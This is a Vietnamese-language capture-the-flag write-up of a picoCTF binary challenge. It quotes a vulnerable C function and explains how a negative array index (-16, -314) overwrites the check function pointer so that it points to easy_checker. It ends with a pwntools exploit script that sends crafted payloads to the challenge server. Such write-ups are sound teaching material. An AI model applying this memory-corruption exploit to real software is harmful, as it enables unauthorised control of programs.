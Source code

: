 # tìm lỗi
ta nhìn vào hàm vuln()
```c
void vuln()
{
  char story[128];
  int num1, num2;
 
  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);
 
  if (num1 < 10)
  {
    fun[num1] += num2;
  }
 
  check(story, strlen(story));
}
```
chương trình cho ta nhập số âm, nên chúng ta sẽ thay đổi giá trị 'check' trỏ đến địa chi hàm easy_checker()

# thực thi
ta có ```0x804c040 <check>``` và ```0x804c080 <fun>```
```c
>>> (0x804c080 - 0x804c040)/4
16.0
>>> hex(0x804c080 + (-16)*4)
'0x804c040'
```
Nếu ta nhập -16 cho num1 làm cho fun[num1] trỏ đến check

tiếp đến ta sẽ chuyển địa chỉ hàm hard_checker() về easy_checker()

```c
>>> 0x8049436 - 0x80492fc
314
>>> hex(0x8049436 + (-314))
'0x80492fc'
```

# stage 2
tiếp đến hàm calculate_story_score()  sẽ tính điểm như sau nếu ta nhập "AAAABBBB"
```c
>>> score = ord('A')*4 + ord('B')*4
>>> score
524
```
ta cần nhập chuỗi sao cho = 1337, và các byte cần bé hơn 0x7f
```
>>> hex(int(1337 / 5))
'0x10b'
>>> hex(int(1337 / 10))
'0x85'
>>> hex(int(1337 / 15))
'0x59'
>>> hex(int(1337 / 20))
'0x42'
>>> 20*0x42
1320
1320 + 0x11
```

```python
from pwn import *
p = connect('saturn.picoctf.net', 56083)
 
payload = b'B'*20 + b'\x11'
p.sendlineafter(b're a 1337 >> ', payload)
payload = b"-16 -314"
p.sendlineafter(b'rst one less than 10.', payload)
 
p.interactive()
```
